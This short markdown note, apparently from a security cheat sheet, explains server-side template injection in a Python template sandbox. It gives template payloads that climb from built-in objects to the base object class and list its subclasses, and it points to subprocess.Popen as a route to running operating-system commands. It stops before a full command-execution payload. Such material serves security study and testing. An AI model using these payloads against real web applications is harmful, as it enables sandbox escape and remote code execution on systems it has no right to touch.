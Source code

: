 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

[]
''
()
dict
config
request

# example payload
{{ [].__class__.__base__ }} # <class 'object'>

2. Finding subclasses to abuse

{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>, ... , <class 'subprocess.Popen'>, ... ]

The subprocess.Popen class allows us to run os commands and is of interest.
